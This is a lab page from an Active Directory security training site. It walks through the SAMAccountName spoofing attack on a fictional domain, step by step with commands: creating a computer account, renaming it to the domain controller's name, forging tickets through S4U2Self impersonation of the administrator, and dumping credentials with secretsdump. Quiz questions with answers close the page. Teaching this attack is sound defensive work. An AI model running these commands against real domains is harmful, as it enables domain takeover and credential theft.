

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/SAMAccountNameSpoofing/index.html · generator: mkdocs

#SAMAccountNameSpoofing

This attack revolves around tricking the KDC into thinking an account different from the DC is actually the DC account. This way, an attacker can impersonate a DC in a S4U2Self Kerberos extension and retrieve highly privileged service tickets for any DC service.

To perpetrate this attack, one must use previously retrieved user credentials, and this user must be able to create a computer account. Users can create up to 10 computer accounts in AD by default. The attacker can check how much computer accounts they can create using CME:
```
crackmapexec ldap captain.north.altair.local -u skyler.white -p Password123 -d north.altair.local -M MAQ
```
It seems that Skyler can create up to 10 computer accounts. Let's create a new one:
```
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host captain.north.altair.local -domain-netbios NORTH 'north.altair.local/skyler.white:Password123'
```
Now, the attacker has access to this new account as well. Each account can modify its own SPNs. In this attack, it's necessary to clear out every SPN associated with the newly created account before changing its name:
```
#in the krbrelayx dir
python3 addspn.py --clear -t 'samaccountname$' -u 'north.altair.local\skyler.white' -p 'Password123' 'captain.north.altair.local'
```

Now, we'll rename the computer account's name to the DC's computer account name, without a trailing '$'. Then, we'll retrieve a TGT that will reference this new name. Once we get the TGT we'll change the computer account name back to its original:

```
#in the samaccountname_scripts dir
python3 ./renameMachine.py -current-name 'samaccountname$' -new-name 'CAPTAIN' -dc-ip 'captain.north.altair.local' north.altair.local/skyler.white:Password123
getTGT.py -dc-ip 'captain.north.altair.local' 'north.altair.local'/'CAPTAIN':'ComputerPassword'
python3 ./renameMachine.py -current-name 'CAPTAIN' -new-name 'samaccountname$' -dc-ip 'captain.north.altair.local' north.altair.local/skyler.white:Password123
```

Now, the attacker can use this TGT and confuse the KDC into believing that the TGT actually belongs to the DC computer account. The attacker can then impersonate the DC in order to obtain a service ticket to a DC service as any user. The attacker will then retrieve a service ticket to the SMB service for the administrator user, and then use this ticket to compromise the domain through a DCSync attack using the secretsdump.py script.

```
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/CAPTAIN.ccache
python3 ./getST.py -self -impersonate 'administrator' -altservice 'CIFS/captain.north.altair.local' -k -no-pass -dc-ip 'captain.north.altair.local' 'north.altair.local'/'CAPTAIN'
#now we have a service ticket impersonating the administrator to the DC's SMB service. At this point the domain can be compromised
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/administrator@CIFS_captain.north.altair.local@NORTH.ALTAIR.LOCAL.ccache
secretsdump.py -k -no-pass -dc-ip 'captain.north.altair.local' @'captain.north.altair.local'
```

!!! question
    How can the attacker retrieve a service ticket to the DC's SMB service as the Administrator? Through what mechanism?
??? success "Answer"
    The attacker retrieves this ticket using the S4U2Self mechanism, which the DC account is allowed to perform. The attacker makes the KDC believe that it holds a TGT pertaining to the DC, and thus it is eligible to execute the S4U2Self and retrieve a service ticket to a DC service, while impersonating the administrator.
!!! question
    How did the attacker tricked the KDC into believing that the TGT that the attacker holds actually pertains to the DC?
??? success "Answer"
    By first changing a owned computer account name to CAPTAIN (without a $ at the end). Asking for a TGT, which will reference the CAPTAIN account, and then changing the account name back to the original. Finally, use the TGT, and since there's no CAPTAIN account, the KDC believes the TGT actually belongs to CAPTAIN$, which is the DC's computer account.
